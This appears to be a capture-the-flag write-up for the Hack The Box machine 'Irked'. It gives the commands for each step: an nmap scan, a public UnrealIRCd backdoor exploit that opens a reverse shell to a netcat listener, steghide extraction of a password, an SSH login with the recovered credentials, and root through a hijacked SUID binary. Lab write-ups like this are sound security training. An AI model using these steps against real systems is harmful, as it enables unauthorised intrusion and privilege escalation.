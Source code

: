 # Recon
```
sudo nmap -sV -sC -O -p- -oN nmap.txt 10.10.10.117
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Irked/assets/1.png">

# Initial Foothold
We spot UnrealIRCd running and see if we can find an exploit:
> https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

We change the ip and port and setup a netcat listener. After we run the following command we will have a low privilege shell:
```
python3 exploit.py 10.10.10.117 8067 -payload python
```

# Lateral Movement
We discover a .backup file in djmardov's home folder which we'll use to extract a pass.txt file in the image found on the website.
```
steghide extract -p UPupDOWNdownLRlrBAbaSSss -sf irked.jpg 
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Irked/assets/3.png">

We can now login with SSH as ```djmardov``` with ```Kab6h+m+bbp2J:HG```

# Privilege Escalation
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Irked/assets/4.png">

We notice ```viewuser``` as SUID file and upon running it it refers to ```/tmp/listusers``` which doesn't exist. We create the file and add ```/bin/sh```. Chmod it using ```chmod a+x listusers``` and we get a root shell when we execute ```/usr/bin/viewuser```.



